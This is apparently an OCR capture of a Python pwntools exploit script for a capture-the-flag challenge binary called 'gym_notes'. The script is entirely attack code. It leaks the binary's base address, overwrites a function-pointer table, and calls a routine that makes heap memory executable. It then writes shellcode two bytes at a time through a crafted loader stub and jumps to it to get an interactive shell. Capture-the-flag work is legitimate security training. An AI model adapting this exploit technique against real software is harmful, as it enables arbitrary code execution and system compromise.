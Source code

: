 ```python
        loader = b"\x41\x80\x04\x24"            # add    BYTE PTR [r12], ? (part 1)
        loader += SHELLCODE[i*2].to_bytes()     # add    BYTE PTR [r12], ? (part 2)
        loader += b"\x41\x80\x44\x24\x01"       # add    BYTE PTR [r12+0x1], ? (part 1)
        loader += SHELLCODE[i*2+1].to_bytes()   # add    BYTE PTR [r12+0x1], ? (part 2)
        loader += b"\xc3"                       # ret
        loader += b"\x90"*(15-len(loader))      # padding
        new_optionFuncs = b"\xff" + loader  # optionFuncs[0] & optionFuncs[1]
        new_optionFuncs += p64(mprotect+1)  # optionFuncs[2]
        overwrite_optionFuncs(new_optionFuncs)
        s.sendlineafter(b"> \n", b"3")      # run loader

if __name__ == "__main__":
    s = process("./gym_notes")
    #s = remote("gym-notes.flu.xxx", 1337)
    
    # 1- Add dummy note (to not overwrite main arena pointers)
    s.sendlineafter(b"> \n", b"2")
    s.sendlineafter(b"> \n", b"XXXX")
    
    # 2- Leak VBA
    s.sendlineafter(b"> \n", b"3")
    fun_delNote        = int(s.recvline().decode().split()[1], 16)
    vba                = fun_delNote - 0x6a6
    allowFunctionsExec = vba + 0x6f6
    
    log.info(f"Virtual Base Address ==> {hex(vba)}")
    
    # 3- Call allowFunctionsExec()
    new_optionFuncs = b"X"*0x8                  # optionFuncs[0]
    new_optionFuncs += p64(allowFunctionsExec)  # optionFuncs[1]
    overwrite_optionFuncs(new_optionFuncs)
    s.sendlineafter(b"> \n", b"2")
    mprotect = int(s.recvline().split()[2][:-2], 16)
    log.info(f"RWX heap section ==> {hex(mprotect)}")
    
    # 4- Load shellcode
    loader()
    
    # 5- Jump to shellcode
    new_optionFuncs = b"X"*0x8              # optionFuncs[0] ; has to be 4th opt
    new_optionFuncs += b"X"*0x8             # optionFuncs[1] ; any other option would have left junk in MSBs
    new_optionFuncs += b"X"*0x8             # optionFuncs[2]
    new_optionFuncs += p64(mprotect+0x20)   # optionFuncs[3]
    overwrite_optionFuncs(new_optionFuncs)
    s.sendlineafter(b"> \n", b"4")
    
    #br = hex(vba+0x997) # call RDX
    #gdb.attach(s, f"b* {br}")
    s.interactive()
```
